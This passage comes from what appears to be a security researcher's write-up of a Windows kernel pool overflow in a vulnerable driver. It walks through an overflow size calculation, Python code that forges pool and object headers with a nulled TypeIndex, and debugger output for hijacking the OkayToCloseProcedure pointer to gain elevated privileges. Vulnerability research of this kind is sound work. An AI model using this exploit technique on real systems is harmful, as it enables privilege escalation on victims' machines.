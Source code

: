 We can do our overflow calculation like so. Let's say we want to overflow the buffer by 44 bytes (0x2c). We take the buffer size, subtract the header, subtract the starting index offset, add the amount of bytes we want to overflow and divide it all by 0x8 (due to the qword copy per loop iteration).

(0x460 - 0x8 - 0x1c + 0x2c) / 0x8 = 0x8d

So a size of 0x8d will overflow the buffer by 0x2c or 44 bytes. This smashes the pool header, quota and object header.

{% highlight python %}
    # repair the allocated chunk header...
    input += struct.pack("<I", 0x040c008c)     # _POOL_HEADER
    input += struct.pack("<I", 0xef436f49)     # _POOL_HEADER (PoolTag)
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("<I", 0x0000005c)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER_QUOTA_INFO
    input += struct.pack("<I", 0x00000001)     # _OBJECT_HEADER (PointerCount)
    input += struct.pack("<I", 0x00000001)     # _OBJECT_HEADER (HandleCount)
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER (Lock)
    input += struct.pack("<I", 0x00080000)     # _OBJECT_HEADER (TypeIndex)
    input += struct.pack("<I", 0x00000000)     # _OBJECT_HEADER (ObjectCreateInfo)
{% endhighlight %}

We can see that we set the TypeIndex to 0x00080000 (actually it's the lower word) to null. This means that that the function table will point to 0x0 and conveniently enough, we can map the null page.

{% highlight text %}
kd> dd nt!ObTypeIndexTable L2
82b7dee0  00000000 bad0b0b0
{% endhighlight %}

Note that the second index is 0xbad0b0b0. I get a funny feeling I can use this same technique on x64 as well :->

#### Triggering Code Execution in the Kernel

Well, we survive execution after triggering our overflow, but in order to gain eop we need to set a pointer to 0x00000074 to leverage the OkayToCloseProcedure function pointer.

{% highlight text %}
kd> dt nt!_OBJECT_TYPE name 84fc8040 
   +0x008 Name : _UNICODE_STRING "IoCompletionReserve"
kd> dt nt!_OBJECT_TYPE 84fc8040 .
   +0x000 TypeList         :  [ 0x84fc8040 - 0x84fc8040 ]
      +0x000 Flink            : 0x84fc8040 _LIST_ENTRY [ 0x84fc8040 - 0x84fc8040 ]
      +0x004 Blink            : 0x84fc8040 _LIST_ENTRY [ 0x84fc8040 - 0x84fc8040 ]
   +0x008 Name             :  "IoCompletionReserve"
      +0x000 Length           : 0x26
      +0x002 MaximumLength    : 0x28
      +0x004 Buffer           : 0x88c01090  "IoCompletionReserve"
   +0x010 DefaultObject    : 
   +0x014 Index            : 0x0 ''                <--- TypeIndex is 0x0
   +0x018 TotalNumberOfObjects : 0x61a9
   +0x01c TotalNumberOfHandles : 0x61a9
   +0x020 HighWaterNumberOfObjects : 0x61a9
   +0x024 HighWaterNumberOfHandles : 0x61a9
   +0x028 TypeInfo         :                       <-- TypeInfo is offset 0x28 from 0x0
      +0x000 Length           : 0x50
      +0x002 ObjectTypeFlags  : 0x2 ''
      +0x002 CaseInsensitive  : 0y0
      +0x002 UnnamedObjectsOnly : 0y1
      +0x002 UseDefaultObject : 0y0
      +0x002 SecurityRequired : 0y0
      +0x002 MaintainHandleCount : 0y0
      +0x002 MaintainTypeList : 0y0

[FuzzySec]: https://twitter.com/FuzzySec
[sickness416]: https://twitter.com/sickness416
[skylined]: https://twitter.com/berendjanwever
[ryujin]: https://twitter.com/ryujin
[awe]: https://www.offensive-security.com/information-security-training/advanced-windows-exploitation/
[hevd]: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
[windriver]: http://www.jungo.com/st/products/windriver/
[advisory]: /advisories/src-2017-0026
[exploit]: /pocs/src-2017-0026.py.txt
